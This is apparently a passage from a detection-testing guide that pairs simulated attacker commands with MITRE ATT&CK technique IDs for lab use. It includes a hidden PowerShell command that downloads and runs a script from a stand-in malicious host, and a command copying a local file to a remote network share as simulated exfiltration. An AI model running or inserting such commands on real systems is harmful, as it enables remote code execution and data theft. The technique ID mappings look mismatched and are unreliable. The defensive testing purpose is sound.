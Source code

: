 ### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1167**


## ✅ T1168 – Beaconing to external command servers

### Description
Simulates beaconing to external command servers to evaluate detection capability for MITRE tactic **Command and Control**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString(\'http://malicious.site/c2.ps1\')"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of beaconing to external command servers on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1168**


## ✅ T1169 – Copying data to removable media or network

### Description
Simulates copying data to removable media or network to evaluate detection capability for MITRE tactic **Exfiltration**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell -c "Get-Content C:\data.txt | Out-File \\10.10.10.10\share\data.txt"
```

### Tool Used
CMD
